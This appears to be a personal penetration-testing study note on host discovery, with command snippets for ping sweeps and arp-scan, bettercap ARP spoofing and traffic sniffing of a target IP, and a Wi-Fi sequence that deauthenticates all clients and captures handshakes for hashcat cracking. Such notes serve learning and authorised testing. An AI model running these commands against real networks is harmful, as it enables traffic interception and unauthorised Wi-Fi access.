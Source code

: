 ```yaml
---
creation date: September 27th 2023
last modified date: September 27th 2023
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Host Discovery]]  
___

## Description:  

[host discovery hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/pentesting-network)

### Pinging
```
Broadcast ping: 
ping -b 10.4.1.255

Ping other networks:
ping -b 255.255.255.255

Scan the local network, using the information from the primary network interface:
arp-scan -l

Scan a subnet, specifying the interface to use and a custom source MAC address:
arp-scan -I eth0 --srcaddr=DE:AD:BE:EF:CA:FE 192.168.86.0/24

Fingerprint a system using ARP:
arp-fingerprint -h

```


### bettercap
https://www.geeksforgeeks.org/sniffing-using-bettercap-in-linux/amp/
```
bettercap  -iface wlan0
net.show
net.probe on
help
set arp.spoof.fullduplex true
set arp.spoof.targets 192.168.43.157(IP address of the target Device)
set arp.spoof on
set net.sniff.local true
net.sniff on
```

### Wifi hacking with bettercap

https://null-byte.wonderhowto.com/how-to/hack-wi-fi-networks-with-bettercap-0194422/

```
# need a monitor mode-compatible adapter.
airmon-ng start wlan1

sudo bettercap --iface wlan1mon
help wifi
wifi.recon on
events.stream off
wifi.show
wifi.deauth all
set wifi.handshakes '/desiredfolderlocation'
wifi.assoc all
#Check file created for a hash to brute force with hashcat

```

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 27th 2023 (10:00 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
